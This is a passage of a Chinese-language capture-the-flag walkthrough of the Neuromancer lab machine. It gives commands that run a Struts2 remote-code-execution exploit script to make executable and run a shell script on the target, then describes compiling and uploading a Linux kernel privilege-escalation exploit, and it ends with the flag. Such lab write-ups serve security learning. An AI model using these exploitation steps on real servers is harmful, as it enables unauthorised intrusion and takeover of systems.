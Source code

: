 （模仿 exp 给我脚本命令即可）  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqbxutmhXF5lpjSAfmKicGXrFoMVKtFMLmicQ05Kjnj2PKpL6YglLk05kA/640?wx_fmt=png)

```
python 42324.py http://192.168.56.123:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action "chmod +x /tmp/dayu1.sh"
```

发送 chmod 让它可执行...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqrT5agUJ4S64UsibmOaXkib9t0wwsqUj7YZcFQQOZ1I7bEIolGRv7L4FA/640?wx_fmt=png)

```
python 42324.py http://192.168.56.123:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action "sh /tmp/dayu1.sh"
```

成功进入对方服务器.... 嘿嘿！！！（这里发现 stra... 换了 IP，因为凌晨 3 点还没做出来，困死关机睡觉了）

go

go

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqsEsM56MbGgdNq2XZjJWhGe8CsML7Yd0rENTmT5u8vwvrhNcaI6p5XA/640?wx_fmt=png)

可以看到没装 python... 搜索 Linux  4.4.0 exploit

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqxtZInUfpbCrKZ7lIJDOxyLNHGmf0eJE1ic76Rja2mt3CYib65iagN9QAQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqWWSDFAibhcNJoQXcIesapmKTEDFibia06ib0iaibJOf2S2fRObX0aWBVOmUw/640?wx_fmt=png)

发现 44298 可以利用...（试了 su 提权，不允许...)

先 cp 把 44298 拿出来 gcc 编译即可

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqKGunia3XOWlJebN5G9SZMyUfqPueeAbULt9adG6XXiaLr05ia7kxP49qw/640?wx_fmt=png)

然后上传到 Neuromancer 上

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqmO6tBdEABlGQDXV7kLSvwvXibhn7RVWOgInbtcZaLQiaQ5jibbkXnBAAQ/640?wx_fmt=png)

执行即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPYAPtuDztF30TCBfIBQukqsib2rRyf7Ln12FYUG1RldrmktG1rISryD2Rvw8FUARib8doicMw8PVLjg/640?wx_fmt=png)

```
flag：be3306f431dae5ebc93eebb291f4914a
```

![](https://mmbiz.qpic.cn/mmbiz_png/gBSJuVtWXPZE73MPxL1VoDjO3DFaxJA2MQpSSibwsXKVf4VIHh8S9fZXT8pq1ALE3hWEN22AaniaghxGrJqjEsxw/640?wx_fmt=png)

这里有个小坑，如果是 32 位的 kali 系统用 gcc 编译 44298.c 会报错，因为里面代码含有_u64 写的编码... 必须得 64 位系统用 gcc 编译，当然还有别的方法...

成功提权...

总而言之，学到很多...Neuromancer 是一台非常有趣的靶机，为了达到目的，必须先进入另一个靶机 Straylight，然后学习如何正确使用 socat 进行旋转（这里很坑的，一定要动手操作下），一旦我在 Neuromancer 上获得低特权 shell，特权映射就非常简单了…… 至少对于内核利用途径而言，肯定还有别的提权方法在 Neuromancer，等我后期有精力了肯定会来发掘下！！！
